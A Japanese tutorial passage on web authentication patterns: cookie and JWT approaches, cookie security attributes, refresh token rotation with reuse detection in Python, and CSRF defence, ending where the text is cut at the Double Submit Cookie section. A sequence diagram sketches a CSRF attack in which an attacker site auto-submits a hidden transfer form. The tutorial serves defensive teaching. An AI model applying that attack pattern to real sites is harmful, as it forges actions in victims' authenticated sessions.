









# Webアプリケーションの認証実装パターン（Cookie/Token, Refresh Token Rotation）

## 1. 認証の基本概念と設計上の関心事

### 1.1 認証とは何か

Webアプリケーションにおける認証（Authentication）とは、リクエストを送信しているのが「誰であるか」を確認するプロセスである。認証は認可（Authorization）の前提となるが、それ自体は独立した関心事として設計される必要がある。

HTTPはステートレスなプロトコルであり、各リクエストは独立している。ブラウザがサーバーにリクエストを送るたびに「あなたは誰か」という問いに答えなければならない。この問題を解決するために、セッション管理や各種トークン方式が生まれた。

### 1.2 認証実装が解くべき問題

現代のWebアプリケーションにおける認証実装は、以下の問題を同時に解決しなければならない。

- **安全な身元証明**: 正規のユーザーのみが認証を通過できること
- **セッションの継続性**: ログイン後、すべてのリクエストで再認証を要求しないこと
- **トークンの漏洩対策**: 認証情報が盗まれても被害を最小化できること
- **XSS / CSRF への耐性**: Webの代表的な攻撃に対して堅牢であること
- **スケーラビリティ**: 複数サーバーやマイクロサービス環境でも機能すること

これらの要求を同時に満たす「完璧な」方式は存在せず、実装者はトレードオフを理解した上で設計を選択する必要がある。

### 1.3 認証フローの全体像



## 2. Cookie認証 vs Token認証

### 2.1 セッションベース認証（Cookie + サーバーサイドセッション）

セッションベース認証では、サーバーがセッションデータを保持し、クライアントにはそのセッションを参照するためのセッションIDだけを渡す。

```mermaid
sequenceDiagram
    participant B as ブラウザ
    participant S as Webサーバー
    participant SS as セッションストア（Redis等）

    B->>S: POST /login (credentials)
    S->>SS: セッションデータを保存 (session_id → {user_id, roles, ...})
    SS-->>S: 保存完了
    S-->>B: Set-Cookie: session_id=abc123; HttpOnly; Secure

    B->>S: GET /profile (Cookie: session_id=abc123)
    S->>SS: セッションデータを取得 (key: abc123)
    SS-->>S: {user_id: 42, roles: ["user"]}
    S-->>B: プロフィールデータ
```

**特徴**:

- セッションの無効化が即座に行える（ストアからデータを削除するだけ）
- サーバー側でセッション状態を管理するため、ステートフルな設計となる
- 水平スケール時にセッションストアの共有が必要（RedisやMemcachedが一般的）
- セッションIDはランダムな不透明な文字列であり、それ自体に情報を持たない

### 2.2 JWTベース認証（Token認証）

JWT（JSON Web Token）ベース認証では、サーバーが署名済みトークンをクライアントに発行し、クライアントはそのトークンを各リクエストに付与する。



JWTは3つのパートで構成される。

```
ヘッダー.ペイロード.署名
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
.eyJzdWIiOiI0MiIsInJvbGVzIjpbInVzZXIiXSwiZXhwIjoxNzM4OTM2MDAwfQ
.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

```json
// JWT Header
{
  "alg": "HS256",
  "typ": "JWT"
}

// JWT Payload (claims)
{
  "sub": "42",           // Subject: user ID
  "roles": ["user"],     // Custom claim
  "iat": 1738935600,     // Issued At
  "exp": 1738936500      // Expiration Time (15 minutes later)
}
```

**特徴**:

- サーバーサイドのセッションストアが不要（ステートレス）
- マイクロサービス間での認証伝播が容易
- ペイロードにユーザー情報を含められるため、DBクエリを削減できる
- 発行済みトークンの無効化が困難（有効期限切れを待つか、ブロックリストが必要）

### 2.3 Cookie認証 vs Token認証の比較

| 観点 | セッション + Cookie | JWT (Bearer Token) |
|------|--------------------|--------------------|
| サーバー状態 | ステートフル | ステートレス |
| スケーラビリティ | セッションストア共有が必要 | 高い（各サーバーで検証可能） |
| 即時無効化 | 容易（ストアから削除） | 困難（ブロックリスト必要） |
| CSRF対策 | 必要（Cookieを使う場合） | Bearer Token使用時は不要 |
| XSS対策 | HttpOnly Cookieで保護可能 | localStorageに保存するとリスク大 |
| ペイロードサイズ | セッションIDのみ（小さい） | JWTはBase64で膨らむ |
| 実装の複雑さ | 比較的シンプル | Refresh Tokenなど複雑 |
| マイクロサービス | セッションストア共有が必要 | 向いている |

> [!TIP]
> 従来型のWebアプリケーション（サーバーサイドレンダリング）にはセッション + Cookie方式が、SPAやモバイルアプリのバックエンドAPIにはJWT方式がよく選ばれる。ただしこれは絶対的なルールではなく、JWTをCookieに保存するハイブリッド構成も多い。

## 3. Cookie属性の設計

### 3.1 Cookie属性の概要

認証にCookieを使用する場合、Cookie属性の正しい設定がセキュリティの根幹となる。各属性の意味と推奨設定を理解することが不可欠である。

```http
Set-Cookie: session_id=abc123;
  HttpOnly;
  Secure;
  SameSite=Lax;
  Path=/;
  Max-Age=86400;
  Domain=example.com
```

### 3.2 HttpOnly

`HttpOnly` 属性を付与したCookieは、JavaScriptの `document.cookie` からアクセスできなくなる。

```javascript
// With HttpOnly: cannot access via JavaScript
console.log(document.cookie); // session_id は表示されない

// Without HttpOnly: accessible via JavaScript (XSS risk)
console.log(document.cookie); // "session_id=abc123"
```

XSS攻撃でスクリプトが実行されても、`HttpOnly` CookieはそのスクリプトからはJavaScript経由では読み取れない。認証に使用するCookieには**必ず** `HttpOnly` を付与すること。

### 3.3 Secure

`Secure` 属性を付与したCookieは、HTTPS接続でのみ送信される。HTTP経由では送信されないため、中間者攻撃（MITM）によるCookieの傍受を防ぐ。

本番環境では**必ず** `Secure` を付与すること。ローカル開発環境（localhost）では多くのブラウザが `Secure` なしでも動作するため、開発時と本番時で設定を分けることが多い。

### 3.4 SameSite

`SameSite` 属性はCSRF攻撃の主要な防御手段となっている。3つの値がある。

```
SameSite=Strict  ─ クロスサイトリクエストには一切送信しない
SameSite=Lax    ─ トップレベルナビゲーションのGETリクエストには送信する（デフォルト）
SameSite=None   ─ クロスサイトでも送信する（Secure属性必須）
```



**実用的な選択指針**:

- **Lax（推奨デフォルト）**: 通常のWebアプリケーションに適切。外部サイトからのリンク経由でのGETナビゲーションは許可しつつ、フォームPOSTなどのCSRF攻撃には防御できる
- **Strict**: セキュリティを最優先する場合。ただし外部サイトからのリンク遷移でも認証が失われるため、UXへの影響がある
- **None**: サードパーティCookieを意図的に使用する場合（OAuth 2.0の認証フロー中など）

### 3.5 Domain と Path

```http
Set-Cookie: session_id=abc123; Domain=example.com; Path=/
Set-Cookie: admin_token=xyz; Domain=admin.example.com; Path=/admin
```

- **Domain**: Cookieを送信するドメインを指定する。`example.com` と指定すると `sub.example.com` にも送信される。省略時はCookieを設定したドメインのみに送信される
- **Path**: Cookieを送信するパスを指定する。`/admin` と指定すると `/admin/*` へのリクエストにのみ送信される

### 3.6 `__Host-` と `__Secure-` プレフィックス

Cookie名にプレフィックスを付けることで、ブラウザがCookieの属性を強制する仕組みがある。

```http
# __Host- prefix: Secure + Path=/ + Domainなし が強制される
Set-Cookie: __Host-session=abc123; Secure; Path=/; HttpOnly

# __Secure- prefix: Secure属性が強制される
Set-Cookie: __Secure-token=xyz; Secure; HttpOnly; SameSite=Lax
```

`__Host-` プレフィックスは最も厳格で、以下の条件をすべて満たす必要がある。

1. `Secure` 属性が付いていること
2. `Path=/` であること
3. `Domain` 属性が指定されていないこと

これにより、サブドメインやHTTP接続からのCookie上書き攻撃（Cookie Tossing攻撃）を防ぐことができる。

> [!WARNING]
> Cookieの属性設定ミスは深刻なセキュリティホールにつながる。`HttpOnly`、`Secure`、`SameSite=Lax` の3属性は認証Cookieの最低限の設定として必ず付与すること。可能であれば `__Host-` プレフィックスの使用も検討する。

## 4. JWTの構造とアクセストークン + リフレッシュトークンの設計

### 4.1 アクセストークンの設計

アクセストークンは短命（5〜15分程度）のJWTとして設計するのが一般的である。

```json
// Access Token Payload
{
  "iss": "https://auth.example.com",   // Issuer
  "sub": "user-uuid-42",               // Subject (user identifier)
  "aud": "https://api.example.com",    // Audience (intended recipient)
  "iat": 1738935600,                   // Issued At
  "exp": 1738936500,                   // Expiration (15 minutes)
  "jti": "unique-token-id-abc",        // JWT ID (for revocation)
  "roles": ["user"],                   // Custom: roles
  "email": "user@example.com"          // Custom: email
}
```

**設計上の注意点**:

- ペイロードには機密情報（パスワードハッシュ等）を含めてはならない（Base64デコードで誰でも読める）
- `exp` は短く設定する（漏洩時の被害を限定するため）
- `jti` はトークン単体の無効化が必要な場合に使用する
- `aud` を検証することで、別サービス向けトークンの流用を防ぐ

### 4.2 リフレッシュトークンの設計

リフレッシュトークンはアクセストークンの再発行のためだけに使用する、長命なトークンである。



リフレッシュトークンはOpaque Token（不透明なランダム文字列）として実装し、サーバーサイドのストアで管理するのが安全である。

```python
import secrets
import hashlib
from datetime import datetime, timedelta

def issue_refresh_token(user_id: str, db) -> str:
    # Generate a cryptographically secure random token
    raw_token = secrets.token_urlsafe(32)
    # Store the hashed version (never store raw tokens)
    token_hash = hashlib.sha256(raw_token.encode()).hexdigest()

    db.refresh_tokens.insert({
        "token_hash": token_hash,
        "user_id": user_id,
        "expires_at": datetime.utcnow() + timedelta(days=7),
        "created_at": datetime.utcnow(),
        "family_id": secrets.token_urlsafe(16),  # for rotation tracking
        "revoked": False,
    })

    return raw_token  # Return raw token to the client
```

## 5. Refresh Token Rotation と再利用検出

### 5.1 Refresh Token Rotation とは

Refresh Token Rotation は、リフレッシュトークンを使うたびに新しいリフレッシュトークンに交換する仕組みである。古いトークンはそのたびに無効化される。



この仕組みにより、リフレッシュトークンが漏洩した場合でも、正規ユーザーが次のリフレッシュを行った時点で攻撃者のトークンが無効化される。

### 5.2 再利用検出（Reuse Detection）

より強力な保護として、**トークンファミリー**の概念を使った再利用検出がある。



```python
def refresh_access_token(raw_refresh_token: str, db) -> dict:
    token_hash = hashlib.sha256(raw_refresh_token.encode()).hexdigest()
    token_record = db.refresh_tokens.find_one({"token_hash": token_hash})

    if not token_record:
        raise InvalidTokenError("Token not found")

    if token_record["revoked"]:
        # Reuse detected: revoke entire token family
        db.refresh_tokens.update_many(
            {"family_id": token_record["family_id"]},
            {"$set": {"revoked": True}}
        )
        raise TokenReuseDetectedError("Token reuse detected, all sessions invalidated")

    if token_record["expires_at"] < datetime.utcnow():
        raise InvalidTokenError("Token expired")

    # Mark old token as revoked (used)
    db.refresh_tokens.update_one(
        {"_id": token_record["_id"]},
        {"$set": {"revoked": True}}
    )

    # Issue new token in the same family
    new_raw_token = secrets.token_urlsafe(32)
    new_hash = hashlib.sha256(new_raw_token.encode()).hexdigest()
    db.refresh_tokens.insert({
        "token_hash": new_hash,
        "user_id": token_record["user_id"],
        "expires_at": datetime.utcnow() + timedelta(days=7),
        "family_id": token_record["family_id"],  # Same family
        "revoked": False,
    })

    return {
        "access_token": generate_access_token(token_record["user_id"]),
        "refresh_token": new_raw_token,
    }
```

> [!TIP]
> Auth0やSupabaseなどの認証サービスはこのRefresh Token Rotationをデフォルトで実装している。自前実装する場合でも、この仕組みは認証セキュリティの重要な要素として必ず取り入れること。

## 6. CSRF対策の実装

### 6.1 CSRF攻撃の仕組み

CSRF（Cross-Site Request Forgery）攻撃は、攻撃者がユーザーのブラウザを使って意図しないリクエストを送らせる攻撃である。

```mermaid
sequenceDiagram
    participant U as ユーザー（認証済み）
    participant E as 攻撃者サイト（evil.com）
    participant S as 被攻撃サイト（example.com）

    Note over U: example.comにログイン済み<br/>session_cookieを保持

    U->>E: 攻撃者サイトを訪問
    E-->>U: 悪意あるHTMLを返す
    Note over U: <form action="https://example.com/transfer"<br/>method="POST">が自動送信される

    U->>S: POST /transfer (session_cookie が自動付与！)
    Note over S: 正規のリクエストと区別できない
    S-->>U: 送金処理が実行される
```



### 6.2 SameSite Cookie による防御

SameSite=Lax または SameSite=Strict を設定することで、クロスサイトのPOSTリクエストにはCookieが送信されなくなる。これがCSRF対策の最もシンプルかつ強力な方法である。

```http
Set-Cookie: session_id=abc; SameSite=Lax; HttpOnly; Secure
```

`SameSite=Lax` の場合:

- `evil.com` からの `<form method="POST">` → **Cookieは送信されない**（CSRF防御）
- ユーザーが `google.com` のリンクから `example.com` に遷移 → **Cookieは送信される**（利便性維持）

現代のブラウザでは `SameSite` のデフォルト値が `Lax` になっており、明示的に設定しなくてもある程度の保護が得られる。ただし、明示的に設定することを強く推奨する。

### 6.3 Double Submit Cookie パターン

